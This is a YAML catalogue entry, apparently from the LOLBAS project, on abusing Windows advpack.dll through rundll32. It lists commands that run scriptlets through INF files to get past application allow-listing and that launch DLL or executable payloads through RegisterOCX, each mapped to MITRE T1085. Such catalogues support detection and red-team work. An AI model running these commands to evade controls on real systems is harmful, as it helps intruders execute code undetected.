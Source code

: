 ```yaml
---
Name: Advpack.dll
Description: Utility for installing software and drivers with rundll32.exe
Author:
Created: 2018-05-25
Commands:
  - Command: rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
    Description: Execute the specified (local or remote) .wsh/.sct script with scrobj.dll in the .inf file by calling an information file directive (section name specified).
    Usecase: Run local or remote script(let) code through INF file specification.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows
  - Command: rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,,1,
    Description: Execute the specified (local or remote) .wsh/.sct script with scrobj.dll in the .inf file by calling an information file directive (DefaultInstall section implied).
    Usecase: Run local or remote script(let) code through INF file specification.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows
  - Command: rundll32.exe advpack.dll,RegisterOCX test.dll
    Description: Launch a DLL payload by calling the RegisterOCX function.
    Usecase: Load a DLL payload.
    Category: Execute
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows
  - Command: rundll32.exe advpack.dll,RegisterOCX calc.exe
    Description: Launch an executable by calling the RegisterOCX function.
    Usecase: Run an executable payload.
    Category: Execute
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/wiki/Technique/T1085
  - Command: rundll32 advpack.dll, RegisterOCX "cmd.exe /c calc.exe"
    Description: Launch command line by calling the RegisterOCX function.
    Usecase: Run an executable payload.
    Category: Execute
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/wiki/Technique/T1085
Full_Path:
  - Path: c:\windows\system32\advpack.dll
  - Path: c:\windows\syswow64\advpack.dll
Code_Sample:
  - Code: https://github.com/LOLBAS-Project/LOLBAS-Project.github.io/blob/master/_lolbas/Libraries/Payload/Advpack.inf
  - Code: https://github.com/LOLBAS-Project/LOLBAS-Project.github.io/blob/master/_lolbas/Libraries/Payload/Advpack_calc.sct
Detection:
  - IOC:
Resources:
  - Link: https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/
  - Link: https://twitter.com/ItsReallyNick/status/967859147977850880
  - Link: https://twitter.com/bohops/status/974497123101179904
  - Link: https://twitter.com/moriarty_meng/status/977848311603380224
Acknowledgement:
  - Person: Jimmy (LaunchINFSection)
    Handle: '@bohops'
  - Person: Fabrizio (RegisterOCX - DLL)
    Handle: '@0rbz_'
  - Person: Moriarty (RegisterOCX - CMD)
    Handle: '@moriarty_meng'
  - Person: Nick Carr (Threat Intel)
    Handle: '@ItsReallyNick'
---
```


